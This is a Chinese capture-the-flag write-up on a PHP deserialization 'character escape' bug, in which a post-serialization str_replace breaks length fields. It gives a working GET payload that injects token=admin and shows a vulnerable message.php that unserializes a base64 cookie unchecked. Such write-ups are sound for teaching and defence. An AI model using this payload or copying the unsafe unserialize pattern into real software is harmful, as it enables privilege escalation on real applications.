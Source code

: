 ```php

highlight_file(__FILE__);

```

这题考点是字符逃逸的关键在于：`$umsg = str_replace('fuck', 'loveU', serialize($msg));`

序列化后，正则匹配将原本`长度为4的fuck`换成`长度为5的loveU`，但因为是序列化后再进行的替换，其长度值没有改变，就造成了实际长度大于标记长度的情况，从而导致反序列化失败；但只要补充字符使得实际长度和标记一样即可成功反序列化。

再看index.php源码，类message只有from、msg、to可以通过get传参控制，
但想要拿到flag需要token=admin，那么我们就可以利用这个情况，补上token的序列化数据字符来实现控制

流程如下：

想要构造的序列化数据：`O:7:"message":1:{......";s:5:"token";s:5:"admin";}`
利用`";`构造前面$to的闭合，`";s:5:"token";s:5:"admin";}`这一串的长度为27
那么就传入27个fuck，使其能成功反序列化，并且成功闭合，使得反序列化后能够控制token

payload：

```
/?f=1&m=1&t=fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}
```

然后再访问message.php即可

### 解法二

message.php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-03 15:13:03
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-03 15:17:17
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
highlight_file(__FILE__);
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_COOKIE['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```
